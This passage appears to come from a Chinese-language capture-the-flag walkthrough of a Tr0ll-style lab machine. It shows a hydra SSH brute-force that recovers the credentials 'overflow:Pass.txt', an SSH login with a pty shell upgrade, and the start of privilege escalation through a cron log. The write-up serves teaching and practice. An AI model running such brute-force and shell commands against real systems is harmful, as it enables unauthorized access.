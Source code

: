 <img src=".\图片\Snipaste_2023-06-28_17-25-05.png" alt="Snipaste_2023-06-28_17-25-05" style="zoom:80%;" />

可能 `Pass.txt` 也包含在密码里，浴室把它加到密码本里

```bash
└─# cat Pass.txt 
Good_job_:)
Pass.txt
Pass
txt
```

```bash
└─# hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.0.102 -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-28 05:39:55
[DATA] max 2 tasks per 1 server, overall 2 tasks, 2 login tries (l:1/p:2), ~1 try per task
[DATA] attacking ssh://192.168.0.102:22/
[22][ssh] host: 192.168.0.102   login: overflow   password: Pass.txt
```

得到用户名密码：

```
overflow:Pass.txt
```

ssh登录

```bash
└─# ssh overflow@192.168.0.102
$ python -c 'import pty; pty.spawn("/bin/bash")'
overflow@troll:/$ 
```

# 提权

SSH登录靶机之后，发现无操作几分钟后，会话自动断开，原因可能是设置了计划任务。进而查看相应日志`/var/log/cronlog`

```bash
overflow@troll:/$ cat /var/log/cronlog
*/2 * * * * cleaner.py
```
